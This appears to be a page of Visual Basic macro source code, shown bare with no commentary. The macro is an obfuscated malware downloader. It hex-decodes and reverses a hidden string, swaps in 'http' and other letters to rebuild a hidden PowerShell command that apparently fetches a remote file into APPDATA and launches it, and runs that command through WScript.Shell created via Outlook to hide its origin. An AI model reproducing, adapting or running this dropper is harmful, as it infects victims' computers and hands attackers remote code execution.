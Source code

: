 ```
Tmp = "s1=272728656E616273697242272B276C6946272B2764616F272B276C6E272B27776F442E272B2729746E656E616273697242272B27696C43272B2762656E61627369724257272B272E74656E6162736972424E27202B27292A4F2D572A20272B274D4347282628273B736E696172545254242072656E6162736972427473614D206C6173203B292749272C272D2A2E2A2728656E61627369724263616C70656E616273697242722E2758452D2A2E2A273D736E69617254525424206C6C656E616273697242687372656E616273697242776F736E69617254/\/s2=29277362762E6E6F64656E61627369724267616D7261272B275C272B41544144736E69617254736E69617254413A766E656E61627369724224287373656E616273697242636F72702D7472617473203B72656E6162736972427473614D7C272927277362762E6E6F64656E61627369724267616D726127272B27275C27272B41544144736E69617254736E69617254413A766E656E616273697242242C272733706D2E32306F7263616D2F656E616273697242646164696C6174616E2F72622E6D6F632E6F766F706F646F746972672F2F3A734F4B2E4C"
Dim FieldStr() As String
Dim FieldSplitStr() As String
FieldStr = Split(Tmp, "/\/")

For Each xx In FieldStr
    FieldSplitStr = Split(xx, "=")
    colVariabili.Add FieldSplitStr(1), FieldSplitStr(0)
Next
ST = rev(colVariabili("s1")) + rev(colVariabili("s2"))
VEC = rev(sHexDecode(rev(ST)))
VEC = rep(VEC, "L.KO", "http")
VEC = rep(VEC, "Brisbane", "e")
VEC = rep(VEC, "Trains", "P")

k = rep("Wscr#######ll", "#######", "ipt.she")

Dim objOL
    Set objOL = CreateObject(rep("#######.Application", "#######", "Outlook"))
    Set shellObj = objOL.CreateObject(k)
 cd = shellObj.Run(VEC, 0)

End Sub
Public Function sHexDecode(sData As String) As String
 Dim iChar As Integer
 Dim sOutString As String
 Dim sTmpChar As String
 For iChar = 1 To Len(sData) Step 2
sTmpChar = Chr("&amp;H" &amp; Mid(sData, iChar, 2))
sOutString = sOutString &amp; sTmpChar
 Next iChar
 sHexDecode = sOutString
End Function
Function rep(Str As String, tr As String, rep1 As String) As String
Dim RegX
XO = rev("pxEgeR.tpircSBV")
Set RegX = CreateObject(XO)
Dim MyString, SearchPattern, ReplacedText
MyString = Str
SearchPattern = tr
ReplaceString = rep1
RegX.Pattern = SearchPattern
RegX.Global = True
ReplacedText = RegX.Replace(MyString, ReplaceString)
rep = ReplacedText
End Function
Function rev(Str As String)
For i = Len(Str) To 1 Step -1
    Var = Mid(Str, i, 1)
    reverseString = reverseString &amp; Var
Next
rev = reverseString
End Function
```
